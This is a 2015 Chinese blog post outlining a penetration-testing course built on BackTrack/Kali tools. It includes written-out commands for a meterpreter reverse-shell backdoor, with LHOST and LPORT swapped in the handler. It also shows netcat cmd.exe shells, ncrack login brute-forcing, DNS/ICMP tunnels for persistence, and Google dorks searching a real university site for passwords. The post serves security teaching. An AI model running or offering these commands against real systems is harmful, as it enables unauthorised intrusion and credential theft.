 ```yaml
---
author: wangguohao
comments: true
date: 2015-01-01 12:23:00+00:00
layout: post
slug: '%e5%ae%89%e5%85%a8%e8%af%be%e7%a8%8b%e7%9a%84%e5%a4%87%e8%af%be'
title: 安全课程的备课
wordpress_id: 575
categories:
- 计算机
tags:
- 安全
---
```


第一份工作进入尾声了，准备最后一段课程的视频的录制，课程的设计的思路是：借助一下主流的工具，来介绍一下常见的网络安全的比较感性的原理（对细微本身讲的较少）。大体课程内容设计如下：


### Linux安全测试发行版介绍：


BackTrack:(虽然现在项目已经换名字了，但是依然有很多人喜欢bt)
Probably the most widely known pen-test distro out there and one of the oldest distro still being actively developed. There is a thumb-drive and Live DVD version, plus the ability to do a full install in your hard-drive. The distribution is based on Ubuntu with custom packages that gets updated on a regular basis.

kali：
From the creators of BackTrack comes Kali Linux, the most advanced and versatile penetration testing distribution ever created. We have a whole set of amazing features lined up in our security distribution, geared at streamlining the penetration testing experience.

Backbox Linux:
Another Ubuntu based distro but uses XFCE as its window manager and relies on its own repo to constantly keep its tools updated.

Pentoo: A livecd based on Gentoo and XFCE. Also available as an overlay for existing Gentoo installations. Has the ability to crack passwords using GPGPU out of the box.

目的是介绍主要的工具集。


### 踩点技术


传统的本地dns探测工具，多数依赖于字典文件：

    
    dnsenum.pl -f dns_list.txt --dnserver 8.8.8.8 cisco.com -o cisco.list



    
    dnsmap cisco.com -w wordlist.txt -c cisco.csv




路由信息收集工具，一个传统的udp实现，一个现代一点的利用tcp实现，可以穿越防火墙。
paratrace,一种新的、隐形的 traceroute,可使用有状态的过滤器。
traceroute:传统的工具
tcptraceroute ：稍微新一点，利用tcp的工具。

搜索引擎的技巧
http://en.wikipedia.org/wiki/Google_hacking
filetype:xls site:jlxy.nju.edu.cn
密码 site:jlxy.nju.edu.cn
密码 site:jlxy.nju.edu.cn filetype:doc
site:jlxy.nju.edu.cn intext:admin

自动化，综合的信息收集平台maltego
1：domain
2：dns
3：whois information
4：network block
5：ip address
6：E-mail


### 扫描技术


发现主机

    
    arping -c 2 192.168.1.1



    
    fping -s -r 1 192.168.1.1 192.168.1.254



    
    hping3 -c 2 192.168.1.1



    
    #hping3
    hping>hping send {ip(addr=192.168.1.1)+icmp(type=8,code=0)}



    
    nbtscan 192.168.1.1-254


操作系统指纹识别

主动：nmap -O

被动：p0f

端口扫描
autoscan

netifera

scanrand:一个非常快速、无状态的 TCP 端口扫描器和 traceroute 工具

服务探测

    
    cd /pentest/enumeration/www/httprint/linux/
    httprint -h 192.168.1.1 -s singnature.txt


VPN探测

    
    ike-scan -M -v 192.168.1.1



    
    sslscan 192.168.1.1




### 漏洞发现


Cisco tools

cisco auditing tool

    
    ./CAT -h 192.182.1.1 -w lists/community -a lists/passwords -I


Cisco passwd scanner

    
    ./cisco 10.10.10 3 -t 4 -C 10


Snmp tools

    
    cd /pentest/enumeration/snmp/admsnmp
    ./ADMsnmp 192.168.1.1 -wordf wordlist.list


如果你知道snmp的community， 你可以使用这个工具收集信息。

    
    cd  /pentest/enumeration/snmp/snmpenum/
    ./snmpenum 192.168.1.1 private windows.txt


针对web的安全工具
Burp suite

Nikto

    
    ./nikto.pl -h 192.168.1.1 -C -p 80 T3487b -t 3 -D \V  -o webtest -F htm


W3af

这个waf的探测工具：WAFW00F

    
    cd /pentest/web/waffit/
    ./wafw00f http://....


介绍两个成熟的框架：openvas，nessus


### 集成化的工具包


SET

MSF

    
    msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.150 LPORT=4444 X > backdoor.exe
    
    msfconsole
    use exploit/multi/hander
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LPORT 192.168.1.150
    set LHOST 4444





### 局域网安全


Layer 2:
CDP(cisco discovery protocols)
mac flood

Layer 3:
dhcp
tcp syn flood

结合一点点嗅探技术：
dsniff 包由 Dug Song 编写,已经发布几年了,是一组强大的网络审核工具。其中有一个简洁的小工具 arpspoof,可用于向 ARP 缓存注入虚假信息。该工具可以创建 Gratuitous ARP 应答,应答数据包中的源 IP 是用户打算伪装的 IP 地址,而目标 IP 则是所要嗅探的目标计算机。


### 密码破解


在线的：以破解cisco的路由器，和html表单的例子。
ncrack -U pass -v -P pass telnet://192.168.1.1
ncrack -U pass -v -P pass http://192.168.1.1
Web 表单
离线的：无线的密码破解是离线的


### 维持访问


基本都是两台主机，其中一台替另一台通过某些服务对流量进行封装中继。

Dns 隧道
Server:dns2tcpd

    
    ./dns2tcpd -F -d 1 -f dns2tcpd.conf


Client:

    
    ./dns2tcpc  -z  domain.org


配置文件：

    
    Domain=domain.org
    Rescoure = ssh
    Local_port = 2222
    Debug = 1


icmp 隧道
Server:

    
    ./ptunnel


Client:

    
    ./ptunnel -p tun.ser_ip -lp 2222 -da ture.ip  -dp 22


代理服务器
netcat
Windows:

    
    nc.exe -d -L -p 1234 -e cmd.exe


Remote:

    
    nc -l -p 1234


locale:

    
    nc -d remore port -e cmd.exe


Nc realy:（利用脚本实现），就是一种重定向，指定的数据流转发，还可以把传输的信息dump一次。

    
    #/bin/bash
    nc -o output.file ip_addr port



    
    nc -l -p 23 -e script.sh
